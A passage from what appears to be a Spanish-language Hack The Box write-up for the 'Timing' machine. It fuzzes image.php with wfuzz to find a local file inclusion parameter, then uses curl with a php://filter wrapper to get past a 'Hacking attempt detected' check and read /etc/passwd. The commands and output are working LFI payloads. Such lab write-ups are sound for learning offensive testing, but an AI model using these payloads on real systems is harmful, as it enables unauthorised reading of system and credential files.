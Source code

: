 Vemos que existen varios archivos con este formato, y que la mayoría tienen un redirect como vimos anteriormente.
Tenemos presente un archivo **`upload.php`** que puede ser interesante, pero no tenemos acceso debido al redirect.

Podemos ver el archivo **`image.php`** que si accedemos a él desde el navegador, nos devuelve un html vacío.
Esto puede deberse a que sea el encargado de mostrar el contenido de otros archivos,
para lo cual podemos pensar en que existe algún parámetro definido, dando lugar a un [Local File Inclusion (LFI)](https://ironhackers.es/herramientas/lfi-cheat-sheet/)

Vamos a comprobar esto con wfuzz:

```console
p3ntest1ng:~$ wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt --hh 0 -u "http://timing.htb/image.php?FUZZ=/etc/passwd" -t 50 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://timing.htb/image.php?FUZZ=/etc/passwd
Total requests: 2588

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000000360:   200        0 L      3 W        25 Ch       "img"                                                                                                                       

Total time: 0
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 0
```

## Fase de Explotación

Teniendo este parámetro vulnerable a **`LFI`**, podemos intentar listar algún archivo del sistema y ver el resultado.

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=/etc/passwd"
Hacking attempt detected!
```

A pesar de ser vulnerable, nos muestra un mensaje de alerta pero no el contenido del archivo,
para poder solventar este inconveniente podemos utilizar el filtro base64 de php, esto lo haremos de la siguiente forma:

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-decoder/resource=/etc/passwd" | grep -vE "nologin|false|sync"
root:x:0:0:root:/root:/bin/bash
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```
